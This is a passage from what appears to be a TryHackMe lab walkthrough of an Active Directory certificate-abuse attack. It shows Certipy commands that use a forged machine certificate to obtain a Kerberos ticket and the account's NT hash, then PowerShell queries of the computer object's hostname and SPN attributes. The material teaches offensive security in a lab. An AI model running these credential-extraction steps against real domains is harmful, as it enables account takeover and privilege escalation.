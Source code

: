 Again we can verify that the certificate is valid by using Certipy:

```
(certipy) [thm@thm]$ certipy auth -pfx thmpc.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: thmpc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thmpc.ccache'
[*] Trying to retrieve NT hash for 'thmpc$'
[*] Got NT hash for 'thmpc$@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a
```

We can verify the NTLM hash recovered against the password we set for the machine account using an [NTLM Generator](https://codebeautify.org/ntlm-hash-generator).

### Updating the DNS Hostname and SPN Attributes

In order to update the AD object’s attributes, we will use the [AD-RSAT PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory) cmdlets. You can use the following command on the AttackBox to SSH into the machine:

```
[thm@thm]$ ssh lunar.eruca.com\\thm@lundc
```

Once you’re in, start Powershell:

```
lunar\thm@LUNDC C:\Users\thm>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm>
```

Let’s first just get the current attributes from our Computer AD Object using the Get-ADComputer cmdlet:

```
PS C:\Users\thm>Get-ADComputer THMPC -properties dnshostname,serviceprincipalname
DistinguishedName    : CN=THMPC,CN=Computers,DC=lunar,DC=eruca,DC=com                                                                
DNSHostName          : THMPC.lunar.eruca.com                                                                                         
Enabled              : True                                                                                                           
Name                 : THMPC2ObjectClass          : computer                                                                                                       
ObjectGUID           : f40260ee-2f74-4fa1-aa4c-f83bcf589c15                                                                           
SamAccountName       : THMPC$                                                                                                        
serviceprincipalname : {RestrictedKrbHost/THMPC.lunar.eruca.com, RestrictedKrbHost/THMPC, HOST/THMPC.lunar.eruca.com, HOST/THMPC} 
SID                  : S-1-5-21-3330634377-1326264276-632209373-11218                                                                 
UserPrincipalName    :
```
